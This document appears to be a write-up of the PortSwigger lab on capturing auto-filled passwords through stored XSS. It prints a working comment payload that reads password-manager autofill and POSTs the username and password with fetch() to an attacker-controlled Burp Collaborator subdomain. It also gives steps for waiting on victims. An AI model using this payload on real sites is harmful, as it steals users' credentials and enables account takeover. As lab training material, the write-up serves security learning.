




Burp Collaborator to capture passwords
Many users have
password managers that auto-fill their passwords. You can take advantage
of this by creating a password input, reading out the auto-filled password, and sending it to your own domain. This
technique avoids most of the problems associated with stealing cookies, and can even gain access to every other
account where the victim has reused the same password.
Disadvantage:It only works
on users who have a password manager that performs password auto-fill.
This lab contains
a stored XSS vulnerability in the blog comments function1.Burp Professional → Burp → Burp
Collaborator client
2.
"Copy to clipboard", this will generate a Burp Collaborator subdomain that we can monitor
3.
Submit the following payload in a
blog comment, inserting your Burp Collaborator subdomain where indicated
.
This script will make anyone
who views the comment issue a POST request to burpcollaborator.net containing their username and password
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
4. Go back to the Burp
Collaborator client window now we need only to wait that a user connect to the webpage so we can steal his
passwords!
When we will see an HTTP interaction mans that a user has requested the webpage.
Bibliography:https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords